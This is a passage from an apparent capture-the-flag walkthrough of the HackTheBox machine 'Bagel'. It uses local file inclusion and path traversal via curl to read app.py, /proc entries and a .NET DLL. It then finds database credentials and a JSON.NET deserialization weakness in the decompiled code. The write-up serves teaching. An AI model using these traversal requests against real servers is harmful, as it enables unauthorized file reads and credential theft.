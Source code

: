 Since this is a flask application, we know that because of  `Werkzeug` running, so through LFI we can read `app.py` 

```bash
curl 'http://bagel.htb:8000/?page=../app.py
```

<img src="https://i.imgur.com/fP3UvqV.png"/>

Now the source code mentions about a dll file

<img src="https://i.imgur.com/3pa0Wyj.png"/>

So in order to find the dll, we need to brute force the process ID in `/proc/FUZZ/fd`

<img src="https://i.imgur.com/7tnrS6G.png"/>
First create a wordlist of numbers, I create a wordlist with `crunch`

```bash
crunch 1 3 1234567890 > numbers.txt
```

Next use wfuzz to fuzz for PIDs with the created wordlist

<img src="https://i.imgur.com/PeUU84N.png"/>

requests with 14 characters will show `file not found` so we need to look for requests having a different number of characters so by filtering on 0 and 14 characters I was able to find a request which was having the PID for dll

<img src="https://i.imgur.com/0gme010.png"/>

```bash
curl 'http://bagel.htb:8000/?page=../../../../../proc/887/cmdline' -so -
```

<img src="https://i.imgur.com/EoAIbhE.png"/>

Download the dll file through curl

```bash
curl 'http://bagel.htb:8000/?page=../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll' -o bagel.dll
```

<img src="https://i.imgur.com/msyRSOB.png"/>

Opening the dll file using ILSpy we can see some functions in the dll, it was quite overwhelming for me as it did took me sometime to understand what was happening here, we can find database credentials from `DB_Connection` method

<img src="https://i.imgur.com/kbEx6wb.png"/>

If we see the `Handler` class

<img src="https://i.imgur.com/eYlGeBI.png"/>

It is set to `4` which means it's set to AUTO, that can include .NET type which makes this vulnerable to JSON .NET deserizliation as configuration shouldn't be set to anything other than `None` 
